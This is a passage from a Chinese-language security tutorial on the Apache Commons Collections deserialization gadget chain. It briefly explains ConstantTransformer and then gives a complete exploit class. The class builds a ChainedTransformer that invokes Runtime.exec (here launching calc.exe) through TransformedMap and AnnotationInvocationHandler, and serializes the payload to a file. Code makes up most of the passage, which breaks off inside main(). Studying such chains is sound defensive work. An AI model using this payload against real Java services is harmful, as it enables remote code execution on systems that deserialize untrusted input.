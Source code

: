 ```java
public ConstantTransformer(Object constantToReturn) {this.iConstant = constantToReturn;}

public Object transform(Object input) {return this.iConstant;}
```

传入一个对象,然后直接复制给`iConstant`​变量,而他的`transform()`​方法也是,无论传入什么都返回`iConstant`​

所以我们来构造我们最终的`exp`​

```java
package org.example;

import org.apache.commons.collections.Transformer;
import org.apache.commons.collections.functors.ChainedTransformer;
import org.apache.commons.collections.functors.ConstantTransformer;
import org.apache.commons.collections.functors.InvokerTransformer;
import org.apache.commons.collections.map.TransformedMap;

import java.io.*;
import java.lang.annotation.Target;
import java.lang.reflect.Constructor;
import java.lang.reflect.InvocationTargetException;
import java.util.HashMap;
import java.util.Map;

public class FinEXP {
    public static void EXP() throws ClassNotFoundException, NoSuchMethodException, InvocationTargetException, InstantiationException, IllegalAccessException, IOException {
        // 把反射Runtime与InvokerTransformer结合
        Transformer[] transformers = new Transformer[]{
                new ConstantTransformer(Runtime.class), // 控制setValue()方法的参数
                new InvokerTransformer("getMethod", new Class[]{String.class, Class[].class}, new Object[]{"getRuntime", null}),
                new InvokerTransformer("invoke", new Class[]{Object.class, Object[].class}, new Object[]{null, null}),
                new InvokerTransformer("exec", new Class[]{String.class}, new Object[]{"calc.exe"})
        };
        ChainedTransformer chainedTransformer = new ChainedTransformer(transformers);
//        chainedTransformer.transform(Runtime.class);

        HashMap<Object, Object> hashMap = new HashMap<>();
        hashMap.put("value", "ppppp");
        Map<Object, Object> transformedMap = TransformedMap.decorate(hashMap, null, chainedTransformer);
        Class c = Class.forName("sun.reflect.annotation.AnnotationInvocationHandler");
        Constructor aihConstructor = c.getDeclaredConstructor(Class.class, Map.class);
        aihConstructor.setAccessible(true);
        Object o = aihConstructor.newInstance(Target.class, transformedMap);


        serialize(o);
        unserialize("p.bin");
    }
    public static void serialize(Object obj) throws IOException{
        ObjectOutputStream oos = new ObjectOutputStream(new FileOutputStream("p.bin"));
        oos.writeObject(obj);
    }
    public static Object unserialize(String Filename) throws IOException,ClassNotFoundException{
        ObjectInputStream ois = new ObjectInputStream(new FileInputStream(Filename));
        Object obj = ois.readObject();
        return obj;
    }
    public static void main(String[] args) throws IOException, ClassNotFoundException, InvocationTargetException, NoSuchMethodException, InstantiationException, IllegalAccessException {
```